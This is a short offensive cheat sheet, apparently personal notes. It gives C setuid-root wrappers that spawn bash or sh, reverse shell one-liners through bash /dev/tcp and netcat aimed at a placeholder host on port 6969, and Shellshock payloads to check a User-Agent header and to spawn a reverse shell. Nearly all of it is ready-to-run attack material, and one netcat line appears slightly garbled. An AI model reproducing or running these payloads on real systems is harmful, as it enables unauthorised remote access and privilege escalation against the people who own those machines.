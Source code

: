 # **one liner**

bin/bash:  
int main(void){  
  
setresuid(0, 0, 0);  
  
system("/bin/bash");  
  
}  
  
bin/sh:  
int main(void){  
  
setresuid(0, 0, 0);  
  
system("/bin/sh");  
  
}  
  
Reverse SHELL  
  
Bash  
Bash and TCP sockets  
bash -i >& /dev/tcp/x.x.x.x/6969 0>&1  
/bin/bash -i > /dev/tcp/x.x.x.x/6969 0<&1 2>&1  
  
sh and TCP sockets  
/bin/sh -i > /dev/tcp/x.x.x.x/6969 0<&1 2>&1  
  
Netcat  
nc -e /bin/sh x.x.x.x 6969  
nc -e cmd.exe x.x.x.x 6969  
/bin/sh | nc x.x.x.x 6969  
rm -f /tmp/p; mknod /tmp/p p && nc x.x.x.x 6969 0/tmp/p  
  
Shellshock reverse shell  
Verify vuln within http user-agent header:  
() { :; }; /bin/bash -c 'whoami'  
  
Spawn reverse shell:  
() { :; }; /bin/bash -c 'bash -i >& /dev/tcp/x.x.x.x/6969 0>&1;'